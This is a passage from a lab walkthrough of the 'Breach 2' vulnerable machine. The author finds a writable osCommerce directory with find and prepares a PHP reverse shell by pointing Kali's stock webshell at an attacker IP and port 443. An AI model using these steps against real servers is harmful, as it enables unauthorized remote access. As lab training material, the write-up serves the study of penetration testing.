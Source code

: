Searching a way to upload a file, I found the path Tools -> File Manager that allows create and upload files, but we don't have permissions for that, so I decided to go back to the target machine and search for writable directories.

![](/assets/images/breach2/screenshot-11.png)

```console
milton@breach2:/var/www/html2/oscommerce$ find . -writable -type d 2>/dev/null 
./includes/work
```

I found a directory writable in /var/www/html2/oscommerce/includes/work, I located there and upload a PHP reverse shell.

![](/assets/images/breach2/screenshot-12.png)

```console
root@kali:~$ cp /usr/share/webshells/php/php-reverse-shell.php shell.php
root@kali:~$ sed -i 's/127.0.0.1/192.168.110.150/;s/1234/443/' shell.php
```